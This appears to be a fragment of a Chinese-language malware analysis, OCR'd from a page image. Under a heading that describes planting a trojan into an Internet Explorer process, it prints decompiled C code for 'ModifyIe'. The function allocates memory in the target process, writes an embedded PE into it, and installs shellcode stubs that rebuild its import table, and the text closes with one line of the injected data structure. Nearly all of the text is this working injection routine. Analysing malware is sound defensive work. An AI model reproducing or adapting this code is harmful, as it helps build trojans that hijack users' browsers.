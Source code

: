 * 将自身的木马种植到目标IE进程，同时修复PE结构
```
LONGLONG __stdcall ModifyIe(HANDLE hProcess, BYTE *injectdata, int injectlen)
{
  v19 = 0x10000000;
  optheader = (IMAGE_OPTIONAL_HEADER32 *)validate_getoptionheader((int)injectdata, injectlen);//验证PE结构
  if ( !optheader )
    goto LABEL_18;
  imagebase = optheader->ImageBase;
  imagesize = optheader->SizeOfImage;
  do                 // 尝试在自身进程和IE进程中获取0x3000大小的同地址内存
  {
    v19 += 0x10000;
    lpAddress = (LPVOID)(v19 + imagebase);
    injectbase = VirtualAlloc((LPVOID)(v19 + imagebase), imagesize, 0x3000u, 0x40u);
    if ( injectbase )
    {
      VirtualFree(injectbase, 0, 0x8000u);
      injectbase = VirtualAllocEx(hProcess, lpAddress, imagesize, 0x3000u, 0x40u);
    }
  }
  while ( v19 < 0x30000000 && !injectbase );
  if ( injectbase
&& ConstructPe(hProcess, injectbase, injectdata, injectlen, &inject_d, 0)
//从文件内嵌的PE重新构造重定位表、导入表以及各个节，内嵌PE见③
    && WriteProcessMemory(hProcess, injectbase, (LPCVOID)inject_d.ImageBase, inject_d.ImageSize, 0)// 0xD000
    && (len1 = getshellcodelen((unsigned __int8 *)FixImportTable),
        (v5 = (int (__stdcall *)(_DWORD, int, int, INJECTSTR *))AllocMemoryforShellCode(hProcess, FixImportTable, len1)) != 0)
    && (inject_d.FixImportTable = v5,
        len2 = getshellcodelen((unsigned __int8 *)setsegproperty),
        (v7 = (int (__stdcall *)(DWORD))AllocMemoryforShellCode(hProcess, setsegproperty, len2)) != 0)
    && (inject_d.SetSegProperty = v7,
        inject_d.LdrLoadDll = (FARPROC)LdrLoadDll,
        inject_d.LdrGetDllHandle = (FARPROC)LdrGetDllHandle,
        inject_d.LdrGetProcedureAddress = (FARPROC)LdrGetProcedureAddress,
        inject_d.RtlInitString = (FARPROC)RtlInitString,
        inject_d.RtlAnsiStringToUnicodeString = (FARPROC)RtlAnsiStringToUnicodeString,
        inject_d.RtlFreeUnicodeString = (FARPROC)RtlFreeUnicodeString,
        inject_d.ZwProtectVirtualMemory = (FARPROC)ZwProtectVirtualMemory,
        inject_d.ZwDelayExecution = (FARPROC)ZwDelayExecution,
        a = GetModuleFileNameA(0, inject_d.ImagePath, 0x104u),
        makecstring((BYTE *)inject_d.ImagePath, a),
        len3 = getshellcodelen((unsigned __int8 *)modifyieentry),
        (v9 = AllocMemoryforShellCode(hProcess, modifyieentry, len3)) != 0)
    && (v13 = (unsigned int)v9, (v10 = AllocMemoryforShellCode(hProcess, &inject_d, 0x138u)) != 0) )
  {
    result = __PAIR__((unsigned int)v10, v13);
  }
  else
  {
LABEL_18:
    result = 0i64;
  }
  return result;
}
```
* 写入的数据ie_inject_d结构
```
00000000 INJECTSTR       struc ; (sizeof=0x138, mappedto_37) ; XREF: ModifyIe/r
```